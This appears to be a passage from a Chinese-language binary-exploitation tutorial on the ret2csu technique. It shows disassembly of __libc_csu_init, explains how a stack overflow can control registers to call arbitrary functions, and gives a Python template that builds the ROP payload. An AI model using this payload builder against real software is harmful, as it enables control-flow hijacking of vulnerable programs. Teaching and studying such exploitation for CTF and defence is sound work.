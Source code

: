 ```
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

这里我们可以利用以下几点

- 从0x000000000040061A一直到结尾，我们可以利用栈溢出构造栈上数据来控制rbx,rbp,r12,r13,r14,r15寄存器的数据。
- 从0x0000000000400600到0x0000000000400609，我们可以将r13赋给rdx,将r14赋给rsi，将r15d赋给edi（需要注意的是，虽然这里赋给的是edi，**但其实此时rdi的高32位寄存器值为0（自行调试）**，所以其实我们可以控制rdi寄存器的值，只不过只能控制低32位），而这三个寄存器，也是x64函数调用中传递的前三个寄存器。此外，如果我们可以合理地控制r12与rbx，那么我们就可以调用我们想要调用的函数。比如说我们可以控制rbx为0，r12为存储我们想要调用的函数的地址。
- 从0x000000000040060D到0x0000000000400614，我们可以控制rbx与rbp的之间的关系为rbx+1=rbp，这样我们就不会执行loc_400600，进而可以继续执行下面的汇编程序。这里我们可以简单的设置rbx=0，rbp=1。

***模板***

```python
def csu(got_func, got_func_arg3, got_func_arg2, got_func_arg1, ret):
    # pop rbx,rbp,r12,r13,r14,r15; ret
    csu_end_addr = 0x000000000040061A
    # mov     rdx, r13
    # mov     rsi, r14
    # mov     edi, r15d
    # call    qword ptr [r12+rbx*8]
    # add     rbx, 1
    # cmp     rbx, rbp
    # jnz     short loc_400600
    # add     rsp, 8
    # pop rbx,rbp,r12,r13,r14,r15
    # retn
    csu_front_addr = 0x0000000000400600
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    rbx = 0
    rbp = rbx + 1
    r12 = got_func
    r15 = got_func_arg1
    r14 = got_func_arg2
    r13 = got_func_arg3

    payload = ''
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38 # 8pad, rbx,rbp,r12,r13,r14,r15
    payload += p64(ret)
    return payload
```
